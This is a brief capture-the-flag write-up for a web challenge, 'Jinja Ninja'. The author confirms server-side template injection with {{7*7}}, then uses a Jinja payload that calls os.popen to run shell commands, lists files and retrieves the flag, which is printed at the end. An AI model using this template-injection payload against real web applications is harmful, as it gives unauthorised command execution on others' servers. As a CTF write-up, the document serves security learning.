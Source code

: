 # Jinja Ninja
> WTF is a JINJA? Aint it supposed to be NINJA RAHHHHHHHH

Author: anarchistx

Solve:

We're given a link to see the website. Here's the website template:

<img width="1919" height="914" alt="image" src="https://github.com/user-attachments/assets/d99652ca-9eca-44a1-b19b-9b06e25fce24" />

If i input `a`, here the result

<img width="977" height="747" alt="image" src="https://github.com/user-attachments/assets/56556320-1975-4a55-9882-a3e315594d2c" />

But if input `{{7*7}}`, this is the result

<img width="981" height="745" alt="image" src="https://github.com/user-attachments/assets/c47017d9-1966-44b1-bc73-e27bb1bfc26d" />

If you know of this command `{{7*7}}`, we are faced of SSTI. So the command i use is `{{ lipsum.__globals__.os.popen('ls -R').read()}}`

I use this command from this repo reference: `https://github.com/daffainfo/ctf-writeup/tree/main/2023/0ByteCTF%202023/Guestbook%20(Beta)`. So here is the result

<img width="971" height="766" alt="image" src="https://github.com/user-attachments/assets/6cd61ae2-d405-4d3a-b008-22e33df015b5" />

After that, i though it would be easy just `'cat flag.txt'`. But it didn't show up. And then, there is a clue from sentence that we can find using `/flag`. So i give it a try

Here the result: 

<img width="1510" height="743" alt="image" src="https://github.com/user-attachments/assets/9e782c4a-5b0c-4574-a427-d2cf36c96a42" />

```
HCS{n0w_y0u_h4v3_l34rn3d_ab0ut_SST1_thr0ugh_th1s_ch4ll3ng3_c0ngratzzzzzz_n1nj4_w4r10r_ea6634e7-5fd7-4369-b896-32eebed7a0a6}
```
